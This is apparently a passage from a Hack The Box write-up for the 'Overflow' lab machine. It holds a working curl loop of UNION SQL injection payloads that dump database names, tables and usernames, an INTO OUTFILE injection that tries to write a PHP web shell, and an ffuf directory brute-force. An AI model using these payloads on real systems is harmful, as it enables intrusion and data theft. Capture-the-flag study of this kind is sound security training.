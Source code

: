 The last query can be used to retrieve meta information and then the content
of the DB:

```bash
declare -a payloads=(
    $'version()+--+-'
    $'database()+--+-'
    $'group_concat(table_name)+from+information_schema.tables+where+table_schema+%3d+database()+--+-'
    $'group_concat(column_name)+from+information_schema.columns+where+table_schema+%3d+database()+and+table_name+%3d\'userlog\'+--+-'
    $'group_concat(USERNAME)+from+userlog+--+-')
for p in "${payloads[@]}"; do
    curl -i -s -k -X $'GET' \
        -H $'Host: overflow.htb' \
        -b $'auth=A54aWjWWqj93DBpOuslsPwAAAAAAAAAA; CMSSESSIDf25decdf38ae=rcli3spa091baa9gtfjpgfkpd0' \
        -x $'http://127.0.0.1:8080'
        $'http://overflow.htb/home/logs.php?name=admin\')+UNION+ALL+SELECT+NULL,NULL,'"${p}"
done
```

```
5.7.35-0ubuntu0.18.04.2
developer@localhost
logs
userlog
id,USERNAME,Lastlogin
admin,editor,Mark,Diana,Tester,super,frost,Corp,admin,admin,admin,admin
```

Let's try and exploit the SQLi to write on the disk:

```
admin')+UNION+ALL+SELECT+NULL,NULL,"<%3fphp+system($_REQUEST[chr(99)])%3b+%3f>"+INTO+OUTFILE+"../uploads/shell.php"%3b--+-
```

Fails... Looking for more:

```bash
ffuf -c -u 'http://10.10.11.119/admin_cms_panel/admin/FUZZ' \
    -w '/usr/share/wordlists/discovery/raft-medium-words.txt' \
    -b $'auth=A54aWjWWqj93DBpOuslsPwAAAAAAAAAA; CMSSESSIDf25decdf38ae=rcli3spa091baa9gtfjpgfkpd0' \
    -o 'discovery/directories.admin_cms_panel.admin.txt'
# tmp                     [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 145ms]
# admin                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 162ms]
# modules                 [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 291ms]
# lib                     [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 123ms]
# uploads                 [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 130ms]
# assets                  [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 143ms]
# doc                     [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 124ms]
```

There are a few new folders that may have write permissions. But MySQL seems to
prevent writing to a file...


[author-profile]: https://app.hackthebox.com/users/172213
[blog-posts]: images/screenshots/blog-posts.png
[cmsms-version]: images/screenshots/cmsms-version.png
[cmsms-exploit]: https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/
[cve-2019-9053]: https://www.exploit-db.com/exploits/46635
[cve-2019-9060]: https://nvd.nist.gov/vuln/detail/CVE-2019-9060
[user-profile]: images/screenshots/profile.png